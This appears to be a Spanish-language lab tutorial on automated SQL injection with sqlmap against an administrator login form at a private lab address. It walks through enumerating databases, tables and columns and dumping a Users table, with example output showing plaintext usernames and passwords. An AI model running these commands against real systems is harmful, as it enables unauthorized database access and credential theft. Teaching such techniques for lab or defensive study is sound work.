 Herramienta,  que nos permite de forma automatizada realizar una explotación de esta vulnerabilidad y poder acceder a las tablas, columnas y registros de la base de datos objetivo.

Uso para panel de administrador

extraer las bases de datos


sqlmap -u http://192.168.1.141/administrator/ --forms --dbs --batch
ejemplo de salida:
[*] information_schema                                                                                                  
[*] mysql
[*] performance_schema
[*] Webapp


ahora vamos a conocer las tablas de la base de datos Webapp
sqlmap -u http://192.168.1.141/administrator/ --forms -D Webapp --tables --batch

Ejemplo de salida:
Database: Webapp                                                                                                                                   
[1 table]                                                                                                                                          
+-------+                                                                                                                                          
| Users |
+-------+


Ahora vamos a  sacar las columnas de la tabla Users
sqlmap -u http://192.168.1.141/administrator/ --forms -D Webapp -T Users --columns --batch
Ejemplo de salida:
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(6)      |
| password | varchar(32) |
| username | varchar(32) |
+----------+-------------+



Ahora vamos a sacar los registros de las columnas
sqlmap -u http://192.168.1.141/administrator/ --forms -D Webapp -T Users -C username,password --dump --batch
ejemplo de salida:
Database: Webapp
Table: Users
[4 entries]
+----------+--------------+
| username | password     |
+----------+--------------+
| bart     | b4rtp0w4     |
| liam     | liam@nd3rs0n |
| mike     | mikeblabla   |
| peter    | peter123!    |
+----------+--------------+





https://www.youtube.com/watch?v=pF7uz_ptuFc

<iframe width="560" height="315" src="https://www.youtube.com/embed/pF7uz_ptuFc?si=6uzvXvY5-_lbZuaL" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>




https://www.youtube.com/shorts/MQLrXU3KzxU
